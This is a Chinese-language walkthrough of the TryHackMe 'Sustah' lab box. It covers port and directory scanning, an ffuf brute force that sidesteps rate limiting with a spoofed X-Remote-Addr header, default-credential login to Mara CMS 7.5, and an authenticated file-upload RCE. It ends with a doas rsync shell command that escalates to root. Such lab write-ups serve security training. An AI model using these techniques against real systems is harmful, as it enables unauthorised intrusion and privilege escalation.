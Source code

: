 ```yaml
---
sidebar_position: 116
tags: [Easy, Linux, 文件上传, SUID]
title: "Sustah"
description: "Sustah"
sidebar_label: "Sustah"
slug: /tryhackme/116
---
```


# Sustah

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-134250.png)

## 端口扫描

```bash
root@ip-10-10-27-245:~/sustah# nmap -sTCV -p 22,80,8085 --min-rate 1000 10.10.40.120

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-25 06:58 BST
Nmap scan report for ip-10-10-40-120.eu-west-1.compute.internal (10.10.40.120)
Host is up (0.00014s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
|_  256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Susta
8085/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Spinner
MAC Address: 02:C6:9B:19:19:B3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 8085

进行目录扫描

```bash
root@ip-10-10-27-245:~/sustah# gobuster dir -u http://10.10.40.120:8085/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.40.120:8085/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/25 08:41:37 Starting gobuster
===============================================================
/home (Status: 200)
/ping (Status: 200)
```

扫描之后发现一个 ping 我本来想的是 api 攻击之间命令注入就完了, 但是是我想多了, 访问主页面我知道这是一个猜测数字的内容, 并且其下告诉我们一个概率是 0.004% 所以对应的数字可能是 1~100000 之内于是我进行了枚举, 并且服务端存在流量限制所以需要进行隐藏源地址

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-134250-1.png)

```bash
root@ip-10-10-27-245:~/sustah# ffuf -w ./numbers:FUZZ -u http://10.10.40.120:8085/home -X POST -d 'number=FUZZ' -H 'X-Remote-Addr: 127.0.0.1' -H 'Content-Type: application/x-www-form-urlencoded'  -fw 157

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.40.120:8085/home
 :: Wordlist         : FUZZ: ./numbers
 :: Header           : X-Remote-Addr: 127.0.0.1
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : number=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 157
________________________________________________

10921                   [Status: 200, Size: 975, Words: 149, Lines: 39]
```

输入我们发现的数字就会得到一个新的目录, 我们跳转到新的目录进行攻击

## 80

进行目录扫描

```bash
root@ip-10-10-27-245:~/sustah# gobuster dir -u http://10.10.40.120/YouGotTh3P@th/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.40.120/YouGotTh3P@th/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/25 07:56:28 Starting gobuster
===============================================================
/blog (Status: 301)
/img (Status: 301)
/contact.php (Status: 200)
/about.php (Status: 200)
/sitemap.php (Status: 200)
/index.php (Status: 200)
/css (Status: 301)
/template (Status: 301)
/log (Status: 301)
/theme (Status: 301)
/changes.txt (Status: 200)  --> 告诉我们版本 7.5
/plugin (Status: 301)
/undo (Status: 301)
```

访问主页面我发现其是一个 mara CMS,并且我找到了利用的漏洞但是需要进行身份的验证 [Mara CMS 7.5 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/48780) 随后我找到了其默认账号 admin:changeme 并且可以进行登陆, 随后按照上面的 exp 指示进行了上传

```bash
1. http://10.10.40.120/YouGotTh3P@th/lorem.php?login=admin  # 登陆 URL
2. http://10.10.40.120/YouGotTh3P@th/codebase/dir.php?type=filenew  # 进行文件上传
3. http://10.10.40.120/YouGotTh3P@th/codebase/dir.php?type=fileopen # 访问的我们上传的图片在 img 文件夹下
```

## 后渗透

### www-data

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-134250-2.png)

### www-data —> kiran

我发现在 var 目录下存在一个特殊的备份文件, 在其中我么可以发现用户的密码

```bash
(remote) www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
.......
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
kiran:x:1002:1002:**trythispasswordforuserkiran**:/home/kiran:
(remote) www-data@ubuntu-xenial:/var/backups$ su kiran
Password: 
kiran@ubuntu-xenial:/var/backups$ sudo -l
[sudo] password for kiran: 
Sorry, user kiran may not run sudo on ubuntu-xenial.
kiran@ubuntu-xenial:/var/backups$ id
uid=1002(kiran) gid=1002(kiran) groups=1002(kiran)
```

### kiran —> root

查看提示告诉我有时候可以不使用 sudo 命令我意识到这是doas 利用, 所以我查找其配置文件, 发现利用的方式 [rsync#sudo](https://gtfobins.github.io/gtfobins/rsync/#sudo)

```bash
(remote) kiran@ubuntu-xenial:/tmp$ locate doas.conf
/usr/local/etc/doas.conf
/usr/local/share/man/man5/doas.conf.5
(remote) kiran@ubuntu-xenial:/tmp$ 
(remote) kiran@ubuntu-xenial:/tmp$ cat /usr/local/etc/doas.conf
 permit nopass kiran as root cmd rsync
(remote) kiran@ubuntu-xenial:/tmp$ doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) groups=0(root)
```